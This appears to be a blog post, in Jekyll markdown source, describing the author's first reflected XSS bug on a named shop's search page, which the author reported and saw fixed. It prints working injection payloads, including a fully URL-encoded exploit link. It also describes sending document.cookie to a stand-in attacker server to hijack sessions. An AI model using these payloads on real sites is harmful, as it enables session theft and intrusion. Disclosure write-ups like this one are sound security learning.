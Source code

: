 ```yaml
---
title:  "(First) Reflected XSS"
date:   2016-04-02 
tags: [xss]
---
```


A few weeks ago, I took part in the [Cyber Security Challenge Belgium][CSCBE], an annual CTF hosted by [NVISO][NVISO] intended for Belgian students to test their security knowledge. After talking with some experienced security researchers, they convinced me to start bug hunting. They advised me to start seeking for vulnerabilities on small independent websites instead of hunting large programs on [HackerOne][HackerOne] and [Bugcrowd][Bugcrowd].

After crawling over various websites, I noticed some strange behaviour on the website of [Brouwland][Brouwland]. Users are able to search for products by using the query input form. Since the resulting page includes the query string, I checked whether it was vulnerable to reflected XSS by entering some special characters. 

The query `XSS">` returned the following page:

[![]({{ site.url }}/images/posts/first-xss-1.png)]({{ site.url }}/images/posts/first-xss-1.png)

Surprisingly, the double quote and closing tag were not being escaped. HTML escaping exists in transforming special characters allowing the browser to interpret them as text instead of HTML code, which makes XSS impossible. Input which does not gets escaped? This seemed to easy. If I just close the current tag using `</*>`, I could append my malicious script which will be executed by the browser. For example: 

`test</p><script>alert('XSS')</script>`

Unfortunately, the input starting from the closing tags gets omitted in the returning string. Only `test` was reflected in the returning string. This technique, also known as sanitizing, is another common way to prevent XSS. Thus, these fields are invulnerable to XSS.

After analysing the source code for a second time, I found a more interesting place which reflected my query. The user can filter his search results using the buttons next to the search field. After querying, these buttons contain an href attribute which will execute a filtered search. For example, given input 'XSS':

[![]({{ site.url }}/images/posts/first-xss-2.png)]({{ site.url }}/images/posts/first-xss-2.png)

A quick test reveals the input is neither escaped nor sanitized. Bazinga! Let's just exit the current tag and inject our script using the following query:

`XSS"><script>alert('XSS')</script>`

However, this is detected by Google Chrome's XSS auditor. The auditor identifies malicious request parameters and blocks the response if it believes the code is injected in the response. 

Time to craft another query:

`XSS"></a></li><li><img src="http://www.maliciouslink.com"></li><li><a class="btn btn-default" href="`

Yay, this is accepted! Using URL encoding, we could create the following link:

<div style="overflow-x: auto; overflow-y: hidden; white-space: nowrap; font-style: italic;">www.brouwland.com%2Fen%2Fsearch%3Fq%3DXSS%22%20%3E%3C%2Fa%3E%3C%2Fli%3E%3Cli%3E%3Cimg%20src%3D%22http%3A%2F%2Fwww.maliciouslink.com%22%3E%3C%2Fli%3E%3Cli%3E%3Ca%20class%3D%22btn%20btn-default%22%20href%3D%22</div>

<br>
This results in the following source code:

[![]({{ site.url }}/images/posts/first-xss-3.png)]({{ site.url }}/images/posts/first-xss-3.png)

The page looked like this:

[![]({{ site.url }}/images/posts/first-xss-4.png)]({{ site.url }}/images/posts/first-xss-4.png)

Hence, clicking the link will result in a request to `www.maliciouslink.com`. Although this does not seem malicious, we could replace this link with `www.yourserver.com/cookie?+document.cookie` to send the cookie of an authenticated user to your server and hijack their session. Another possible exploit is to use the onerror attribute in the img tag to execute some arbitrary JavaScript code:

`<img src=x onerror=alert('XSS') />`

There are probably a dozen ways to exploit this vulnerability, however I reported it shortly after I found out the input did not get escaped or sanitized. Their team fixed the bug two days later and thanked me for my findings. Overall, it was a fun and easy first bug. Hopefully this is the start of many other bug discoveries!


[CSCBE]: https://www.cybersecuritychallenge.be/
[NVISO]: https://www.nviso.be/
[HackerOne]: https://hackerone.com/
[Bugcrowd]: https://bugcrowd.com
[Brouwland]: https://www.brouwland.com/en



